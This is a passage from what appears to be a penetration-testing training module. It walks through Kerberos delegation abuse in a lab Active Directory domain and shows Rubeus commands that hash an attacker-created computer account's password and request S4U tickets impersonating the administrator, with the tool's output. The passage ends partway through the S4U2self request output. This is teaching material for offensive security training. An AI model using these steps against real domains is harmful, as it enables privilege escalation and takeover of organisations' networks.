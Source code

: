 ```powershell-session
```

We can ask for a TGT for the created computer account, followed by a `S4U2Self` request to get a forwardable TGS ticket, and then a `S4U2Proxy` to get a valid TGS ticket for a specific SPN on the targeted computer. But first, let's get the NT hash of our computer account.

#### Get Computer Hashes with Rubeus
```powershell-session
PS C:\Tools> .\Rubeus.exe hash /password:Hackthebox123+! /user:HACKTHEBOX$ /domain:inlanefreight.local

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2


[*] Action: Calculate Password Hash(es)

[*] Input password             : Hackthebox123+!
[*] Input username             : HACKTHEBOX$
[*] Input domain               : inlanefreight.local
[*] Salt                       : INLANEFREIGHT.LOCALhosthackthebox.inlanefreight.local
[*]       rc4_hmac             : CF767C9A9C529361F108AA67BF1B3695
[*]       aes128_cts_hmac_sha1 : 91BE80CCB5F58A8F18960858524B6EC6
[*]       aes256_cts_hmac_sha1 : 9457C7FC2D222793B1871EE4E62FEFB1CE158B719F99B6C992D7DC9FFB625D97
[*]       des_cbc_md5          : 5B516BDA5180E5CB
```

Now that we have our newly created computer account's password hash, we request a TGS ticket for the service `cifs/dc01.inlanefreight.local`, allowing us to access the target using WinRM.

#### Impersonate the Administrator
```powershell-session
PS C:\Tools> .\Rubeus.exe s4u /user:HACKTHEBOX$ /rc4:CF767C9A9C529361F108AA67BF1B3695 /impersonateuser:administrator /msdsspn:cifs/dc01.inlanefreight.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: S4U

[*] Using rc4_hmac hash: CF767C9A9C529361F108AA67BF1B3695
[*] Building AS-REQ (w/ preauth) for: 'INLANEFREIGHT.LOCAL\HACKTHEBOX$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFWjCCBVagAwIBBaE<SNIP>


[*] Action: S4U

[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (fe80::c872:c68d:a355:e6f3%11)
[*] Building S4U2self request for: 'HACKTHEBOX$@INLANEFREIGHT.LOCAL'
[*] Sending S4U2self request
```